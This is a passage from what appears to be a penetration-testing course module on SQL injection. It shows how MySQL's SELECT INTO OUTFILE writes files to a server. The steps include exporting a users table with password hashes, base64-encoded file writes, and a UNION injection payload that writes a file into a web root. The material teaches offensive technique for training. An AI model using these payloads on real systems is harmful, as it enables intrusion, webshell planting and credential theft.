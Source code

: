 And the result shows that the `secure_file_priv` value is empty, meaning that we can read/write files to any location.

### SELECT INTO OUTFILE

Now that we have confirmed that our user should write files to the back-end server, let's try to do that using the `SELECT .. INTO OUTFILE` statement. The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files. This is usually used for exporting data from tables.

To use it, we can add `INTO OUTFILE '...'` after our query to export the results into the file we specified. The below example saves the output of the `users` table into the `/tmp/credentials` file:
```
SELECT * from users INTO OUTFILE '/tmp/credentials';
```
If we go to the back-end server and `cat` the file, we see that table's content:
```
$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```
It is also possible to directly `SELECT` strings into files, allowing us to write arbitrary files to the back-end server.
```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```
When we `cat` the file, we see that text:
```
$ cat /tmp/test.txt 

this is a test
```
```
$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```
As we can see above, the `test.txt` file was created successfully and is owned by the `mysql` user.

Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data. For example:
```sql
SELECT FROM_BASE64('TXkgY2F0IGxpa2VzIHRvIGNoYXNlIGVsZXBoYW50cyE=') INTO OUTFILE '/tmp/test.txt'
```

### Writing Files through SQL Injection

Let's try writing a text file to the webroot and verify if we have write permissions. The below query should write `file written successfully!` to the `/var/www/html/proof.txt` file, which we can then access on the web application:
```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

The `UNION` injection payload would be as follows:
```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

http://SERVER_IP:PORT/search.php?port_code=cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```
![write_proof](https://academy.hackthebox.com/storage/modules/33/write_proof.png)
